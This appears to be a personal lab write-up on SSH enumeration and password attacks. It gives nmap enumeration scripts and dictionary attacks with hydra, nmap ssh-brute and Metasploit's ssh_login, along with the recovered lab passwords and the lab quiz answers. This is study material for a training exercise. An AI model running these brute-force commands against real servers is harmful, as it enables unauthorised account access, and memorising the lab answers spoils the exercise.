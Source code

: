 # SHH (Secure Shell)

`ip a`

`ping 192.28.51.3`

`nmap 192.28.51.3`

`nmap 192.28.51.3 -sV O`: runnng OpenSSH 7.2p2

`ssh root@192.28.51.3`

`nc 192.28.51.3`

`nmap 192.28.51.3 -p 22 --script ssh2-enum-algos`

`nmap 192.28.51.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full`

`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"`

`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=admin"`

`ssh student@192.28.51.3`


We want to enumerate the version of the SSH server:
`nmap 192.28.51.3 -sV O`
**It runs OpenSSH 7.2p2

We want to fetch the banner using netcat:
`nc 192.28.51.3`
**SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6**

We need to enumerate the encryption_algorythms:
`nmap 192.28.51.3 -p 22 --script ssh2-enum-algos`
**6**

We want to find out by how many SSH servers the host key is being used:
`nmap 192.28.51.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full`
**The SSH uses the RSA public key (output with above command) to securely ecrypt client connecting to it.

We want to find out which authentification method is being used by the SSH server for user "student".
`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"`
**no auth. method is being used.**

We want to find out the same again, but this time with admin.
`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=admin"`
**publickey, password**

We want to fetch the flag from /home/student/FLAG by using nmap ssh-run script:
`nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG,
ssh-run.username=student,ssh-run.password=" 192.201.39.3`

## SSH Dictionary Attack

`ip a`

`ping 192.35.81.3`

`nmap 192.35.81.3`

`nmap 192.35.81.3 -sV -p 22`

We want to find out the password of the user "student":

`gzip -d /usr/share/wordlists/rockyou.txt.gz`

`hydra -l student -P /usr/share/wordlists/rockyou.txt 192.35.81.3 ssh`

**friend**

`ssh student@192.35.81.3`: not much there, so we try administrator:

We want to find out the passwort of user "administrator" using nmap scripts with specific pw dictionary:

`echo "administrator" > user`

`nmap 192.35.81.3 -p 22 --script ssh-brute --script-args userdb=/root/user`

**password: sunshine**

Now we want to find the password of user "root" using ssh_login metasploit module with userpass dictionary

`msfconsole`

  msf5: `use auxiliary/scanner/ssh/ssh_login`
  
  msf5: `options`
  
  msf5: `set rhosts 192.35.81.3`
  
  msf5: `set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt`
  
  msf5: `set STOP_ON_SUCCESS true`
  
  msf5: `set verbose true`

  msf5: `options`
  
  msf5: `run`
  
  msf5: `exit`
  
**password: attack**

We wanna establish a ssh connection with the password we enumerated:

`ssh root@192.35.81.3`: insert attack

after login, we recieve the message of the day:

_SSH recon dictionary attack lab_


Questions

1. Find the password of user “student” using hydra.
2. Find the password of user “administrator” use appropriate Nmap scripts with password dictionary: /usr/share/nmap/nselib/data/passwords.lst
3. Find the password of user “root” using ssh_login Metasploit module with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt
4. What is the message of the day? (Printed after the user logs in to the SSH server).

